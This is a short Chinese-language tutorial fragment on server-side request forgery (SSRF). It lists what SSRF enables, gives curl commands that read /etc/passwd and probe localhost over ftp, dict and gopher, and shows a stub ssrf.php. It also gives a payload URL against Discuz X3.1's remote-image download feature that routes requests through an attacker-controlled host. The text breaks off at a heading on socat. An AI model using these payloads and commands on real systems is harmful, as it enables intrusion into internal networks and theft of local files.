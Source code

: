 

**SSRF漏洞的危害**

1. 对服务器所在的内网进行端口扫描，获取一些服务的banner信息等
2. 攻击运行在内网或者本地的应用程序
3. 对内网WEB应用进行指纹识别，通过访问默认文件实现（Readme等文件）
4. 攻击内外网的WEB应用，主要是GET就可以实现的攻击（比如Struts2，SQL注入等）
5. 下载内网资源（利用file协议读取本地文件等）
6. 利用Redis未授权访问，HTTP CRLF注入达到getshell
7. wooyun峰会猪猪侠的ppt
8. 进行跳板
9. 无视cdn



**SSRF神器Curl的使用**

查看curl支持的协议列表 #curl--config –protocols

- 使用curl读取文件

  curl -v file:///etc/passwd

- 使用ftp协议

  curl -v "ftp://127.0.0.1:6666/info"

- 使用dict协议

  curl -v "dict://127.0.0.1:6666/info"

- 使用gopher协议

  curl -v "gopher://127.0.0.1:6666/_info"



**案例**

ssrf.php内容

```php
<?php

$ip=$_GET['ip'];
$port=$_GET['port'];
$scheme=$_GET['s'];
$data=$_GET['data'];

?>
```

① payload：

```
http://127.0.0.1/Discuz_X3.1/upload/forum.php?mod=ajax&action=downremoteimg&message=[img]http://hacker.xxxx.com/ssrf.php?s=ftp&ip=172.28.100.108&port=6666&data=he2lo.jpg[/img]
```



② socat的使用
